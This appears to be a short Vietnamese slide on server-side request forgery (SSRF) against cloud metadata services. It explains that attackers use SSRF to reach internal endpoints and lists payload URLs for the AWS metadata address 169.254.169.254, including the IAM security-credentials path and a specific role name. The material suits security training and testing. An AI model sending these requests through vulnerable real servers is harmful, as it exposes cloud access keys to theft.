

Mặc dù các vấn đề SSRF có thể gây ra rủi ro hạn chế, nhưng những kẻ tấn công có thể sáng tạo với những lỗ hổng này để đưa ra yêu cầu đối với các URL không công khai có thể làm lộ dữ liệu nhạy cảm.
Một trong những dịch vụ thường bị những kẻ tấn công khai thác trong môi trường đám mây của bên thứ ba là các dịch vụ web dựa trên REST được gọi là điểm cuối siêu dữ liệu đám mây. Nếu được định cấu hình, điểm cuối siêu dữ liệu cung cấp quyền truy cập có lập trình vào cấu hình hệ thống của máy chủ đám mây, chi tiết mạng, khóa truy cập xác thực, v.v
Gửi url sau :
http://169.254.169.254/latest/meta-data
http://169.254.169.254/latest/meta-data/iam/security-credentials/
http://169.254.169.254/latest/meta-data/iam/security-credentials/ISRM-WAF-ROLE
 DOC:
https://github.com/grvcoelho/169254